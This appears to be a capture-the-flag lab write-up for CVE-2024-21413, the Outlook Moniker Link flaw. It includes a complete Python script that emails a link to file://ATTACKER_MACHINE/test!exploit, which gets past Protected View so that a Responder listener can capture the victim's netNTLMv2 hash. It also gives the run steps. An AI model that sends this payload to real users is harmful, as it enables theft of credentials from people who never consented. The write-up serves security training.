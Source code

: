 **Task 1 - Introduction**

*Q1: What "Severity" rating has the CVE been assigned?*

A: **Critical.** The severity rating of this exploit is 9.8. This is incredibly severe, as it is on a scale of 0 to 10. This is most likely due to the ease of the exploit documented in the CVE.

**Task 2 - Moniker Link (CVE-2024-21413)**

*Q1: What Moniker Link type do we use in the hyperlink?*

A: file://. By using the file:// Moniker Link, we tell Outlook to attempt to access a file. This uses SMB protocol using local credentials for authentication. We need to bypass this, as outlook will block this in protected view.

*Q2: What is the special character used to bypass Outlook's "Protected View"?*

A: **!**. The exclamation point special character and some text in our Moniker Link results in a bypass of Outlook's protected view. From a coding perspective, "!" usually is used as a "not" in boolean logic.

**Task 3 - Exploitation**

**Walkthrough**

Firstly, we need to open responder in our linux machine. enter the following command *responder -I ens5*. We are now listening for packets on this machine.

![alt text](<Images/Moniker-Fig1.png>)

For this exploit, the code is already written for us in the form of a python script. All we have to do is make a file on our linux machine. To do this, we enter the command *nano exploit.py*. In this case exploit.py is our file. Copy and paste the code provided at the beginning of the exercise, or seen here.

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

We will need to make two modifications to this file before we save it to our system.
1) Modify the Moniker Link (Line 12) in the code to OUR IP Address.
2) Replace the 'MAILSERVER' placeholder on line 31 with the TARGET IP.

Save exploit.py and now, its time to run it. We do this through *python3 exploit.py*
For our password when it prompts you, enter **attacker**.
The script should tell you that the email has been delivered.

We now need to go into the windows machine with Outlook open. We should see and email.

![alt text](<Images/Moniker-fig2.png>)

Click the link. We should now see captured hashes in our responder window on our linux machine!

![alt text](<Images/Moniker-fig3.png>)


*Q1: What is the name of the application that we use on the AttackBox to capture the user's hash?*

A: **Responder** is a listener application that can be used on linux to capture packets. We are using it in this attack to capture a hash through outlook and the clicking of a link.

*Q2: What type of hash is captured once the hyperlink in the email has been clicked?*

A: **netNTLMv2** hashes are being captured. This can be seen via the SMB protocol through are listener that is running as seen above.

**Task 4 - Detection**

A Yara rule has been written to detect this exploit, and you can also see the SMB request via **wireshark**.

**Remember to not click fishy links!**

Thank you for reading!